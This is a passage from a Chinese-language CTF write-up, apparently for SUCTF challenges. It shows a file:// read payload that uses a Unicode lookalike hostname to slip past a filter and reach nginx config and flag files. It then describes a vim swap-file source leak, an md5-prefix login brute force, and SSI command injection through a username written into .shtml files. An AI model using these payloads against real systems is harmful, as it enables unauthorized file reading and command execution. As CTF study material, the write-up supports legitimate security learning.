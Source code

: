 那么再换一个其他的字符:

```
file://suctf.cⅽ/usr/local/nginx/conf/nginx.conf
读取成功: 得到了flag的路径
server {
    listen 80;
    location / {
        try_files $uri @app;
    }
    location @app {
        include uwsgi_params;
        uwsgi_pass unix:///tmp/uwsgi.sock;
    }
    location /static {
        alias /app/static;
    }
    # location /flag {
    #     alias /usr/fffffflag;
    # }
}
```

接下来读取flag文件就可以了:

```
getUrl?url=file://suctf.cⅽ/usr/fffffflag
```

<br>

***

<br>



# [md5爆破,vim泄露,shtml执行命令]EasySearch

存在`vim泄露`访问 `index.php.swp`获得源码:

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-'; #共73个字符
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times   随机选5个字符拼接成字符串
		$content = uniqid().$random; // 生成一个唯一id,后面拼接上刚刚获得的长度为5的随机字符串
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) { //密码md5值的前6位需要是'6d0bc1'才能正常登录
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1> // 这里username可以拿来执行命令
            ***
			***';
            fwrite($shtml,$text);
```